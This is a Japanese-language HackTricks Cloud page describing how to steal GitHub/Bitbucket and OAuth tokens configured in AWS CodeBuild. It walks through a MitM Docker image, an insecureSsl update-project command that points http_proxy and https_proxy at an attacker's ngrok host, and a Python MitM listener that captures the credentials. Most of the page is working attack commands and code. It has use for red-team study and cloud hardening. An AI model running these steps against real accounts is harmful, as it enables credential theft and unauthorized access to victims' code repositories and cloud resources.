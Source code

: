 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩できるソース認証情報が設定されているか確認してください:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildに**特定のDockerイメージ**を使用させてプロジェクトのビルドを実行することで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成**するか、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロード**
* リポジトリの指示に従ってプロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
* Dockerイメージがビルドされたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定**
* **新しいCodebuildプロジェクトを作成**するか、既存のものの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、資格情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** プロジェクトには、ウェブ上では隠されている **`insecureSsl`** という設定があり、APIからのみ変更できます。\
これを有効にすると、Codebuildはプラットフォームが提供する証明書を **確認せずに** リポジトリに接続できるようになります。

* まず、次のようなもので現在の設定を列挙する必要があります:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* その後、収集した情報を使用してプロジェクト設定の **`insecureSsl`** を **`True`** に更新できます。以下は私がプロジェクトを更新した例で、最後に **`insecureSsl=True`** があることに注意してください（これは収集した設定から変更する必要がある唯一の項目です）。
* さらに、env 変数 **http\_proxy** と **https\_proxy** も追加し、tcp ngrok を指すようにします：

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）で指摘されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（おそらく金曜日）。したがって、攻撃者はもはやこれを悪用できません :)**
{% endhint %}

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができます**。または、OAuth経由で権限が設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークン**を漏洩させることができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：`http://github.com/carlospolop-forks/TestActions`
* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）によって指示されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
今、攻撃者は自分のマシンからトークンを使用し、持っているすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できます。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
